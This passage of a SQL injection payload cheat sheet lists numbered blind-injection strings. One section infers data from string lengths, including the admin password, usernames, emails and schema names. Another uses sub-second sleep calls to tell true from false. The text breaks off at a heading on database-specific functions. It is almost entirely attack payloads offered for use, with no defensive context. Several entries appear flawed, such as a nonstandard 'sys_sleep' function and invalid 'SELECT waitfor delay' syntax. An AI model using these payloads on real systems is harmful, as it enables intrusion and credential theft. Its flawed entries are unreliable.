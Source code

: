 
### 4. **Boolean-Based Blind with String Lengths**
*Infer data by measuring string lengths.*

| Payloads |
|---|
| 1. ' AND LENGTH((SELECT username FROM users LIMIT 1))=5 -- |
| 2. ' AND LENGTH((SELECT password FROM users WHERE username='admin'))=8 -- |
| 3. ' AND LENGTH((SELECT email FROM users WHERE username='user'))>10 -- |
| 4. ' AND LENGTH((SELECT version()))=8 -- |
| 5. ' AND LENGTH((SELECT database()))=5 -- |
| 6. ' AND LENGTH((SELECT group_concat(username)))>20 -- |
| 7. ' AND LENGTH((SELECT user()))=4 -- |
| 8. ' AND LENGTH((SELECT @@version))=10 -- |
| 9. ' AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1))=8 -- |
| 10. ' AND LENGTH((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1))=5 -- |

---

### 5. **Timestamp-based Injection with Fine-Grained Control**
*Use sub-second sleep to determine true/false.*

| Payloads |
|---|
| 1. ' AND (SELECT SLEEP(0.5)) -- |
| 2. ' AND (SELECT pg_sleep(0.2)) -- |
| 3. ' AND (SELECT sys_sleep(0.3)) -- |
| 4. ' AND (SELECT sleep(0.4)) -- |
| 5. ' AND (SELECT waitfor delay '00:00:00.5') -- |
| 6. ' AND (SELECT SLEEP(0.1)) -- |
| 7. ' AND (SELECT pg_sleep(0.7)) -- |
| 8. ' AND (SELECT sys_sleep(0.6)) -- |
| 9. ' AND (SELECT sleep(0.8)) -- |
| 10. ' AND (SELECT SLEEP(0.9)) -- |

---

### 6. **Leveraging Database-Specific Functions for Info Gathering**
*Use functions unique to databases.*
